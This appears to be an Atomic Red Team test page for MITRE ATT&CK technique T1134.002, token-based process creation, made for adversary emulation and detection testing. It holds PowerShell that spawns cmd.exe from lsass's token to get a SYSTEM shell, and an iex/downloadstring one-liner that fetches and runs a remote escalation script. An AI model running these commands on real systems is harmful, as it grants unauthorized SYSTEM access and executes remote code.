 # T1134.002 - Create Process with Token
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/002)
<blockquote>Adversaries may create a new process with an existing token to escalate privileges and bypass access controls. Processes can be created with the token and resulting security context of another user using features such as <code>CreateProcessWithTokenW</code> and <code>runas</code>.(Citation: Microsoft RunAs)

Creating processes with a token not associated with the current user may require the credentials of the target user, specific privileges to impersonate that user, or access to the token to be used. For example, the token could be duplicated via [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) or created via [Make and Impersonate Token](https://attack.mitre.org/techniques/T1134/003) before being used to create a process.

While this technique is distinct from [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001), the techniques can be used in conjunction where a token is duplicated and then used to create a new process.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Token Manipulation](#atomic-test-1---access-token-manipulation)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-token-manipulation-technique)


<br/>

## Atomic Test #1 - Access Token Manipulation
This Action demonstrates how an access token for a specific program can spawn another program under a different owner. 
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity. 
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
& "$PathToAtomicsFolder\T1134.002\src\GetToken.ps1"; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique
Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ccf4ac39-ec93-42be-9035-90e2f26bcd92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem
```






<br/>
